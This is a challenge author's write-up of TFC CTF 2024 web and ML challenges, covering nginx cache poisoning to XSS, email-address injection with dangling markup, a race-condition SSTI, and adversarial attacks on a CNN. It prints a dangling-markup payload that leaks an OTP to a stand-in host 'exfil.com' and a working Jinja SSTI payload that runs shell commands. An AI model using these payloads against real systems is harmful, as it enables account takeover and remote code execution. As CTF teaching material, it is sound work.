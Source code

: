 # TFC CTF 2024 Challenges

Here are the sources and solutions for the challenges I created for TFC CTF 2024:

## PNGiphy - Web

PNGiphy was a HARD web challenge involving Cache Poisoning coupled with XSS.

After navigating on the platform, we can see that image upload is possible. Hoewever, no sanitization is in place, so we can upload any file, like a valid js or html and it will be saved under `/static/images/<id>`.

Also, images can be reported to a bot which will visit them. But the bot only visits `/?image=imageid`, which loads the corresponding uploaded file into an `img` tag, so XSS should not be possible.

After a closer look, we can see caching is enabled in nginx.conf:

```
proxy_cache_valid 200 301 1m;
proxy_cache_key "$scheme://$hostname$uri";
```

But the cache key is not properly used, leading to cache poisoning.
That is because, in nginx, the `$uri` parameter does not include the parameters and the fragment part. So those will not be included in the cache key. However, when the request is forwarded, golang does not interpret the hash character (`#`) as the beginning of a fragment, thus including it in the path.

It should also be noted that golang normalizes the paths, so a request to `a/b/../c` will return a redirect to `a/c`.

The cache poisoning should begin like this:
* Upload a file with a js payload (containing the XSS payload) and get its id
* Wait 1 minute for the cache to clear and then navigate to `/static/main.js#/../images/<id>` in order to trigger a new cache.
* The cache will be poisoned (cache key will be `/static/main.js` and will be served as a 301 redirect to `/static/images/<id>`)
* Report any image id and, when the bot will load the page, `/static/main.js` will be fetched by the browser, thus rendering our cached file contents and and the XSS payload will be executed

From there just get the leaked flag from the cookie.

## Phisher - Web

Phisher was a HARD-INSANE web challenge, involving information disclosure through email injection + dangling markup, as well as RCE through Race-Condition + SSTI.

The application is split into two parts.

The first one, under `mail.phisher.tfc`, is an inbox application. Users can register under any email and will receive messages. On the other one, `dashboard.phisher.tfc`, the login is implemented using OTP codes, which are sent in the respective's user inbox.

After logging in on the dashboard, users will be able to send referrals to other users, including custom messages. This is done using jinja's `render_template_string`. But, no SSTI is possible when sending a simple message. There is also a specific admin functionality, `bulk_send`, which allows sending multiple messages to users.

### Step one
The first step should be gaining admin access. In order to do this, we should leak his OTP somehow. Note that, in the email body, the user's email is rendered unsanitized. So, we could try injecting some HTML. However, the iframe is sandboxed, so XSS can not be achieved inside the rendered email preview.

Why is entering HTML tags possible? Because `flask_mail` parses the email address this way: If the `<` and `>` tags are present in the email, it will take the address between the tags as the recipient. Everything else is ignored:

```py
>>> import email.utils
>>> email.utils.parseaddr('test<admin@phisher.tfc>test<h1>')
('test', 'admin@phisher.tfc')
```

So, the above payload will actually be sent to the admin user and will be rendered unsanitized inside the email body. But how can we exfiltrate the OTP?

Here comes [Dangling Markup](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) to our help. Entering a payload like `test<admin@phisher.tfc>test<img src="http://exfil.com/?x=` will result in the whole content before the first quotes being included in the image tag. This includes the OTP, which will be included in the exfiltration URL (`http://exfil.com/?x=,</p>            <p>Here is your code: <b>16919426</b></p>        </div>        <div class=`), thus leaking the admin's code.

After getting the admin code, we can login into his account. Now we have access to the full dashboard functionality.

### Step two
For the second part, the main issue resides in the `bulk_send` functionality. While normal users can only send one message at a time, admin users can enter emails separated by a comma and the backend will create a queue of messages. After that, the backend attempts to include the referral message in **all** the queue emails, without if they are already rendered:

```py
def send_bulk(self, sender_email, rcpts, message):
    self.queue.extend(Referral(sender_email, rcpt) for rcpt in rcpts)
    for referral in self.queue:
        referral.include_message(message)
```

So, if the queue is not empty when the request is made, `render_template_string` will be called again on the old items, meaning double template rendering, which results in SSTI.

The plan is as following: Send a request with `{{[].__class__}}` in the message field and a batch of emails separated by comma in the emails field. This will fill the queue with emails that contain the above payload in the message field. Then, send another request similar to the previous one (make sure the timespan between the two requests is very short in order to win the race condition). Immediately when the second request is parsed, the queue will still have some emails that need to be parsed from the first request. Jinja's `render_template_string` will be called again on them and our previously included payload in the message (which initially was harmless), will now be executed. Then, the user will receive a bunch of emails, some of them containing the SSTI results.

Because template rendering escapes quotes, the final payload should be like this: `{{[].__class__.mro()[1].__subclasses__()[370](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip()}}` with the GET argument `?cmd=cat+/flag.txt`.

### Note:

The only team that solved the challenge, **COR (.;,;.)**, actually found an unintended solution to the first part of the challenge. Instead of using `dangling markup` in the email body, they managed to trigger an actual XSS on the email site, because the `From:` field from the email list was not sanitized. Thus, they bypassed the sandbox and leaked the OTP directly from outside the iframe. You can read their writeup [here](https://cor.team/posts/tfc-ctf-2024-phisher/). Congrats to them for the third place!

## Signature - AI/ML

Signature was a MEDIUM Machine Learning challenge involving adversarial attacks.

The website is waiting for a photo with a signature in order to authenticate the user. If the signature matches, the flag is returned.

The signature matching is performed using a CNN model, `model.h5`. In order to retreive the image that the model learned as being valid, a couple of attacks could be performed: `input layer attack` and `gradient tape`. These two are similar. You can find the exploit scripts inside the `solver/` folder of the `Signature` repo.
